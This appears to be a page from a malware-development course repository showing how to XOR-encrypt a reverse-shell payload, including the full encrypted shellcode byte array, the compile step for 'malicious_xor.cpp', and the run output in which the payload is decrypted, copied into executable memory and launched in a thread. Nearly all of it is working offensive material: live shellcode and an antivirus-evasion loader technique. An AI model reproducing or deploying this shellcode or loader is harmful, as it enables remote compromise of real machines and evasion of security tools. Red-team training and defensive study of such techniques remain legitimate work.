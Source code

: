 
# Encrypt payload with XOR cipher algorithm

C:\Python27\python.exe xorencrypt.py C:\RTO\RTO-maldev\RTO\f0ns1\reverse.bin
{ 0x91, 0x31, 0xf0, 0x81, 0x93, 0x9a, 0xa5, 0x74, 0x6b, 0x65, 0x24, 0x34, 0x2c, 0x29, 0x21, 0x34, 0x35, 0x3a, 0x54, 0xa6, 0xe, 0x2d, 0xee, 0x37, 0xd, 0x31, 0xf8, 0x37, 0x7b, 0x3a, 0xee, 0x26, 0x4b, 0x2d, 0xee, 0x17, 0x3d, 0x31, 0x7c, 0xd2, 0x29, 0x38, 0x28, 0x45, 0xa2, 0x2d, 0x54, 0xa5, 0xc1, 0x45, 0x12, 0x19, 0x61, 0x5e, 0x45, 0x35, 0xaa, 0xac, 0x68, 0x24, 0x6c, 0xb8, 0x91, 0x88, 0x31, 0x33, 0x34, 0x3c, 0xe0, 0x37, 0x45, 0xee, 0x2f, 0x45, 0x3b, 0x64, 0xb3, 0xf9, 0xe5, 0xfc, 0x6b, 0x65, 0x65, 0x2d, 0xe8, 0xb9, 0x7, 0x2, 0x2b, 0x73, 0xb5, 0x24, 0xe0, 0x2d, 0x7d, 0x21, 0xe6, 0x39, 0x53, 0x2c, 0x62, 0xa2, 0x86, 0x22, 0x23, 0x9a, 0xac, 0x24, 0xe6, 0x4d, 0xfb, 0x2d, 0x62, 0xa4, 0x28, 0x45, 0xa2, 0x2d, 0x54, 0xa5, 0xc1, 0x38, 0xb2, 0xac, 0x6e, 0x33, 0x64, 0xb5, 0x53, 0x85, 0x10, 0x94, 0x21, 0x7a, 0x3f, 0x41, 0x6b, 0x37, 0x5c, 0xa5, 0x1e, 0xbd, 0x3d, 0x21, 0xe6, 0x39, 0x57, 0x2c, 0x62, 0xa2, 0x3, 0x35, 0xe0, 0x69, 0x2d, 0x21, 0xe6, 0x39, 0x6f, 0x2c, 0x62, 0xa2, 0x24, 0xff, 0x6f, 0xed, 0x2d, 0x64, 0xbd, 0x38, 0x2b, 0x24, 0x3b, 0x2c, 0x3c, 0x2e, 0x2a, 0x3d, 0x24, 0x3c, 0x2c, 0x23, 0x3b, 0xe6, 0x8f, 0x52, 0x24, 0x26, 0x94, 0x85, 0x3d, 0x24, 0x34, 0x23, 0x3b, 0xee, 0x71, 0x9b, 0x32, 0x8b, 0x94, 0x9a, 0x38, 0x2c, 0xd3, 0xe, 0x0, 0x57, 0x3c, 0x41, 0x57, 0x74, 0x6b, 0x24, 0x33, 0x2c, 0xe4, 0x9f, 0x3b, 0xe4, 0x8f, 0xd2, 0x64, 0x74, 0x6b, 0x2c, 0xec, 0x80, 0x24, 0xc5, 0x71, 0x65, 0x40, 0x6f, 0xa5, 0xdc, 0x6a, 0xe3, 0x24, 0x31, 0x24, 0xf0, 0x97, 0x29, 0xea, 0x83, 0x24, 0xce, 0x27, 0x12, 0x43, 0x62, 0x92, 0xac, 0x3f, 0xec, 0x89, 0x1a, 0x64, 0x75, 0x6b, 0x65, 0x3c, 0x24, 0xd7, 0x50, 0xf3, 0xe, 0x63, 0x8d, 0xb0, 0x24, 0x3b, 0x28, 0x54, 0xac, 0x20, 0x48, 0xb3, 0x2d, 0x9c, 0xb2, 0x2d, 0xfd, 0xa9, 0x2d, 0x9a, 0xa5, 0x25, 0xf0, 0xb2, 0x24, 0xd9, 0x98, 0x6a, 0xab, 0x8b, 0x9a, 0xb0, 0x2d, 0xe4, 0xbe, 0x19, 0x75, 0x22, 0x2a, 0x29, 0xfd, 0x89, 0x2d, 0xec, 0x9c, 0x2c, 0xc3, 0xea, 0xc0, 0x17, 0x13, 0x9a, 0xa1, 0x23, 0xe4, 0xa1, 0x25, 0x6f, 0x79, 0x73, 0x2c, 0xdb, 0x11, 0x8, 0x10, 0x6b, 0x65, 0x65, 0x65, 0x6d, 0x38, 0x23, 0x24, 0x33, 0x3a, 0xec, 0x96, 0x3c, 0x32, 0x32, 0x28, 0x5c, 0xb9, 0x19, 0x68, 0x3a, 0x33, 0x35, 0x96, 0x97, 0x3, 0xa2, 0x21, 0x49, 0x2d, 0x72, 0x64, 0x2b, 0xff, 0x21, 0x50, 0x73, 0xa3, 0x65, 0xd, 0x25, 0xf0, 0x95, 0x33, 0x33, 0x33, 0x35, 0x35, 0x3b, 0x24, 0x35, 0x2c, 0x92, 0xb9, 0x32, 0x35, 0x2a, 0x8d, 0xad, 0x39, 0xe2, 0xa4, 0x29, 0xec, 0xac, 0x38, 0xc9, 0x1c, 0xaf, 0x4d, 0xe3, 0x8b, 0xbe, 0x2d, 0x54, 0xb7, 0x25, 0x86, 0xb9, 0xee, 0x6d, 0x33, 0xdf, 0x7c, 0xec, 0x78, 0x5, 0x9a, 0xb8, 0xc2, 0x83, 0xd0, 0xc1, 0x24, 0x24, 0xce, 0xcd, 0xf0, 0xd8, 0xf8, 0x92, 0xac, 0x3b, 0xe6, 0xa7, 0x5a, 0x59, 0x72, 0x17, 0x6f, 0xe5, 0x9e, 0x8d, 0xc, 0x76, 0xde, 0x24, 0x61, 0x17, 0x1b, 0x1, 0x65, 0x3c, 0x24, 0xe4, 0xa3, 0x8c, 0xb0 };


# compile cpp

C:\RTO\RTO-maldev\RTO\f0ns1\Encryption_XOR>compile.bat
malicious_xor.cpp

# execute binary

C:\RTO\RTO-maldev\RTO\f0ns1\Encryption_XOR>malicious_xor.exe
reverse_payload addr : 0x0000003D21D9F950
exec_mem addr        : 0x00000199C6FA0000

Decrypt malious payload!

Decrypt malious payload!

Copy payload on memory !

Launch thread !
